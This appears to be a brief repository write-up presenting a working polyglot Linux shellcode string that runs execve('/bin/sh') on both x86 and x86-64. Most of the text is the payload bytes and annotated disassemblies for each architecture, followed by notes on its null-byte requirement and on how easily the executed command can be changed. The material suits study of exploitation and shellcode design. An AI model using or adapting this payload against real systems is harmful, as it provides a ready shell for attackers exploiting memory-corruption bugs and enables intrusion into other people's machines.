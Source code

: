 This shellcode executes `execve("/bin/sh", {"/bin/sh", 0}, 0)`, on both x86 and
x86-64 linux.


```c
"\x48\x31\xc0\x50\x50\x5a\xeb\x14\x5f\x57\x40\x75\x07\xb0\x3b\x48\x89\xe6\x0f\x05\xb0\x0b\x89\xfb\x89\xe1\xcd\x80\xe8\xe7\xff\xff\xff/bin/sh"
```

```
x86 disas:
   0:   48                      dec    eax
   1:   31 c0                   xor    eax,eax
   3:   50                      push   eax
   4:   50                      push   eax
   5:   5a                      pop    edx
   6:   eb 14                   jmp    0x1c
   8:   5f                      pop    edi
   9:   57                      push   edi
   a:   40                      inc    eax
   b:   75 07                   jne    0x14

    ...

  14:   b0 0b                   mov    al,0xb
  16:   89 fb                   mov    ebx,edi
  18:   89 e1                   mov    ecx,esp
  1a:   cd 80                   int    0x80
  1c:   e8 e7 ff ff ff          call   0x8
  21:   "/bin/sh"

x86-64 disas:
   0:   48 31 c0                xor    rax,rax
   3:   50                      push   rax
   4:   50                      push   rax
   5:   5a                      pop    rdx
   6:   eb 14                   jmp    0x1c
   8:   5f                      pop    rdi
   9:   57                      push   rdi
   a:   40 75 07                rex jne 0x14
   d:   b0 3b                   mov    al,0x3b
   f:   48 89 e6                mov    rsi,rsp
  12:   0f 05                   syscall 

   ...

  1a:   cd 80                   int    0x80
  1c:   e8 e7 ff ff ff          call   0x8
  21:   "/bin/sh"

```

There is one catch however, the shellcode must be followed by a null byte,
which limits its universal usefulness.

One big advantage is that the command executed can be modified trivially, just
modify the end of the shellcode.
